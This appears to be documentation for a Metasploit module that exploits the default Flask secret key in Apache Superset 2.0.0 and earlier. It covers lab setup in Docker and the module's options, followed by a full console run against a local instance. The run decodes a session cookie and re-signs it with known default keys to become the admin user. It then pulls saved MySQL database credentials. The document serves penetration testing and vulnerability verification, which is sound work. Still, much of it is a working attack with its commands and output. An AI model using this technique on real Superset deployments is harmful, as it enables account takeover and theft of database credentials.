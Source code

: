 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'Public' as the role.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.


### ADMIN_ID

The ID of an admin account. Defaults to `1`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYi.ZK2qOQ.c-LssFFTxWJKoQZ7v1Sex8q-xy0
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDY0MGYzZGVlNzJiMDkzMWIwMTgyMzBhYjg3ZDE3NjU0ZjRlMGZlZiIsImxvY2FsZSI6ImVuIn0.ZK2qOQ.oXIWtpT7OItq7Vmr-00Prtl4Pmg;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwlj0tqAzEQRO-itRf9G7XalxkkdTc2MTbM2KuQu0chy6Io6r3vsucR561c38cnLmW_e7mWMKE-qmR3UcdB0LB2EczOSC6VeCNBowruSYxjNdswtOnNY3BuuuG0VodSotpMVuzk6AlCDUcqayoYpIu3ZgLAjad1q4xRLmWeR-7v11c8F49XgWSPUBpg6w6wEUMfbdFp3SQlICPX7vGa_RF_Ds-VPmcc_0pUfn4BrnVCHw.ZK2qOQ.SCiqOSW_PTP9VPz2CfG_2IZmHyI;
[*] 127.0.0.1:8088 - Modified cookie: {"_fresh"=>true, "_id"=>"e942ab64fad47d1b20816a441fa312d462352419260ddf231b1fa5b919cd8deb3f5751c986b72f179cf371a2d1df04281bf737f7090fd4d889400383c9a9631e", "csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en", "user_id"=>1}
[*] Attempting to resign with key: thisismyscretkey\e\y\y\h
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.fv4N_O6m35thR0PFpOdy7E8MA_Y
[-] 127.0.0.1:8088 - Cookie not accepted
[*] Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.XIvqgEv_nviSivPJjE73KOWKMEI
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found mysql database exampledb: root:my-secret-pw@111.222.3.444:3306
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
